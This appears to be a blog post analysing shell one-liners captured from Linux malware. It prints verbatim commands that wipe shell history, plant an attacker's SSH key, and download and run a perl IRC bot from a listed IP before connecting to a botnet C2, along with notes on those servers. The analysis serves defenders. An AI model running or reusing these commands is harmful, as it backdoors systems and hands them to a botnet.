 ```yaml
---
title: Malware Shell Oneliners
published: true
description: Several command oneliner tricks used by malware.
---
```


# Command line tricks used by malware.

## 1. Processor cores
```bash
cat /proc/cpuinfo | grep name | wc -l
```
I found this oneliner actually cool, it prints the number of processor cores you have. 

## 2. Cleaning history and backdooring device
```bash
uname -a;
unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG WATCH;
history -n;
export HISTFILE=/dev/null;
export HISTSIZE=0;
export HISTFILESIZE=0;
cd;
mkdir .ssh;
rm -rf .ssh/authorized_keys;
touch .ssh/authorized_keys;
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEAvN5GkpS25Z9eA2bARaXTVfVN2m/N5V5ddOTyVPftA3ljorQitmh1pyuZDty9oTWF+J0cOtGBvRaQ7NvZCaDC2q6QR0iMOfq7zs+4bl8WO8UnaQcVVIBeEt3YPo8PXwVm5fR4wgoq9SZp29/2jFz0UmAOhiUyImh9/P7jFWqpv3gSxZ8neq+4pSCUfE24OGiFBpJGkAE+wMmJcBX0WjFfjedcbBs1FO/C+x8WY9bFkQ3NwwjVbh3c3mYy9zqdPhm6GI/heVAZUWSKHausOwb+Rem+eKhkrKvoeteqJXEIrlLbHyRHn+12nN/qgG5kIcICv4TRD59GHMYZH3ILngyFJQ==' >> .ssh/authorized_keys;cd
```

This code blob actually was one long line, it does several things:
* Checks operating system
* Clears and disables shell history
* Clears old ssh public keys and pushes his own

### 3. Fingerprinting a system
```bash
1) uname -n -s -r -v;         # Full name in specific order 
3) uname -a & lscpu;          # Prints full name and proc information. 
                              # Symbol '&' forces first command to migrate to another 
                              # process which purpose is unclear to me, might be a bug.
4) uname -snrvo; uptime -p;   # Full name in specific order and time since system start
5) uname -a ; lscpu;          # Prints full name of OS including kernel version
6) uname;                     # Prints you the name of OS (ex: Linux)
7) cat /proc/cpuinfo;         # Info about processor 
8) free -m;                   # How much free disk space is left
```

### 4. Removing other potential malware and install his own
```bash
killall -9 perl;
cd /var/tmp/ ; 
cd /tmp/ ; 
rm -rf ssh1.txt ; 

wget http://185.234.217.21/ssh1.txt ; 
mv ssh1.txt wget.txt ; 

perl wget.txt 193.169.254.11; 
lwp-download http://185.234.217.21/ssh1.txt ; 
mv ssh1.txt lynx.txt ; 
perl lynx.txt 193.169.254.11;
fetch http://185.234.217.21/ssh1.txt ; 
mv ssh1.txt fetch.txt ; 
perl fetch.txt 193.169.254.11; 
curl -O http://185.234.217.21/ssh1.txt ; 
mv ssh1.txt curl.txt ; 
perl curl.txt 193.169.254.11 ; 
rm -rf ssh1.txt wget.txt lynx.txt fetch.txt curl.txt
```
This oneliner tries to download and later run perl bot in several methods using wget, lwp-download, fetch, curl.
Then connects to CnC server which is located in 193.169.254.11.



### 5. Command and control servers
```
185.234.217.21:
  Server location: Ireland
  Hosting:
    ssh1.txt - main perl IRC bot script
    Polish google phishing page
  Nmap scan:
    21/tcp   open     ftp
    22/tcp   open     ssh
    80/tcp   open     http
    1723/tcp filtered pptp
```

```
 193.169.254.11:
    Server location: Poland
    Hosting:
      Several IRC servers for botnet CnC
    Nmap scan:
      22/tcp    open     ssh
      80/tcp    open     http
      81/tcp    open     hosts2-ns
      111/tcp   open     rpcbind
      143/tcp   open     imap
      443/tcp   open     https
      1723/tcp  filtered pptp
      2222/tcp  open     EtherNetIP-1
      6667/tcp  open     irc
      8080/tcp  open     http-proxy
      8443/tcp  open     https-alt
      10000/tcp open     snet-sensor-mgmt
```
